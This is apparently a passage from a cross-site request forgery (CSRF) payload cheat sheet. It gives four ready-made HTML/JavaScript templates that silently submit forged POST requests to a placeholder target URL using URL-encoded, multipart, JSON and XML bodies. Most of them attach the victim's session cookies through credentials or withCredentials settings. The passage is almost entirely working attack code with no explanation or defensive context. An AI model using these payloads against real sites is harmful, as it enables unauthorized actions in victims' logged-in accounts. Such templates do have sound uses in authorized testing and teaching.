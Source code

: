 ### URL-encoded Form Data

```html
<form action="https://target.com/api" method="POST" enctype="application/x-www-form-urlencoded">
    <input type="hidden" name="param1" value="value1">
    <input type="hidden" name="param2" value="value2">
</form>
<script>document.forms[0].submit();</script>
```

### Multipart Form Data

```html
<script>
    var formData = new FormData();
    formData.append('param1', 'value1');
    formData.append('param2', 'value2');
    
    fetch('https://target.com/api', {
        method: 'POST',
        credentials: 'include',
        body: formData
    });
</script>
```

### JSON Content

```html
<script>
    fetch('https://target.com/api', {
        method: 'POST',
        credentials: 'include',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({
            param1: 'value1',
            param2: 'value2'
        })
    });
</script>
```

### XML Content

```html
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'https://target.com/api', true);
    xhr.withCredentials = true;
    xhr.setRequestHeader('Content-Type', 'application/xml');
    xhr.send('<request><param1>value1</param1><param2>value2</param2></request>');
</script>
```
